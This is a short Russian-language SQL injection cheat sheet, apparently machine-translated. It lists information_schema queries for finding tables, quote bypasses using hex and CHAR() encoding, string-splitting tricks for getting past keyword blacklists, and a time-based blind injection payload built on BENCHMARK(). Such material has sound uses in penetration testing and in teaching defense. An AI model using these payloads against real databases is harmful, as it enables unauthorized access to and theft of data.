 ### Запросить таблицу по имени столбца

```sql
-- Запросите таблицу с именем пользователя
SELECT table_name
FROM information_schema.columns
WHERE column_name = 'username';
-- Запросить таблицу, содержащую имя пользователя в имени поля
SELECT table_name
FROM information_schema.columns
WHERE column_name LIKE '%user%';
```

### Обход цитат

```sql
-- шестнадцатеричное кодирование
SELECT *
FROM Users
WHERE username = 0x61646D696E
-- функция char()
SELECT *
FROM Users
WHERE username = CHAR (97, 100, 109, 105, 110)
```

### Обход строкового черного списка

```sql
SELECT 'a' 'd' 'mi' 'n';
SELECT CONCAT('a', 'd', 'm', 'i', 'n');
SELECT CONCAT_WS('', 'a', 'd', 'm', 'i', 'n');
SELECT GROUP_CONCAT('a', 'd', 'm', 'i', 'n');
```

Когда используется `CONCAT()`, любой аргумент имеет значение NULL и вернет NULL. Рекомендуется
использовать `CONCAT_WS()`. Первый аргумент функции `CONCAT_WS()` указывает, какой символьный интервал используется для
запроса результата.

### Условные утверждения

`CASE`, `IF()`, `IFNULL()`, `NULLIF()`.

```sql
SELECT IF(1 = 1, true, false);
SELECT CASE WHEN 1 = 1 THEN true ELSE false END;
```

### Функция задержки

`SLEEP()`, `BENCHMARK()`.

```sql
' - (IF(MID(version(),1,1) LIKE 5, BENCHMARK(100000,SHA1('true')), false)) - '
```
